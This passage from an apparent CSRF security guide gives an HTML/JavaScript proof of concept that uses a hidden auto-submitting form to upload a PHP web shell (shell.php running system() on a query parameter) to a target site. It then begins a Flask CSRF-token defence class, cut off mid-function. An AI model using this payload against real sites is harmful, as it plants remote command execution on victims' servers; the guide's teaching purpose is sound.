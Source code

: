 ### 3. 🎭 CSRF via File Upload

#### Malicious File Upload CSRF
```html
<!-- CSRF attack via file upload -->
<form id="upload-form" action="https://target.com/upload" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="file_type" value="avatar">
    <input type="file" name="file" id="file-input" style="display:none;">
</form>

<script>
// Create malicious file
var maliciousContent = '<?php system($_GET["cmd"]); ?>';
var blob = new Blob([maliciousContent], {type: 'text/plain'});
var file = new File([blob], 'shell.php', {type: 'text/plain'});

// Set file to input
var fileInput = document.getElementById('file-input');
var dataTransfer = new DataTransfer();
dataTransfer.items.add(file);
fileInput.files = dataTransfer.files;

// Submit form
document.getElementById('upload-form').submit();
</script>
```

## 🛡️ Prevention & Mitigation

### 1. 🔒 CSRF Token Implementation

#### Secure CSRF Token Generation
```python
#!/usr/bin/env python3
"""
Secure CSRF Token Implementation

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import secrets
import hashlib
import hmac
import time
from flask import session

class CSRFProtection:
    def __init__(self, secret_key):
        self.secret_key = secret_key
    
    def generate_token(self, user_id=None):
        """Generate cryptographically secure CSRF token"""
        # Generate random bytes
        random_bytes = secrets.token_bytes(32)
        
        # Add timestamp for token expiration
        timestamp = str(int(time.time()))
        
        # Include user ID if provided
        user_data = str(user_id) if user_id else ''
        
```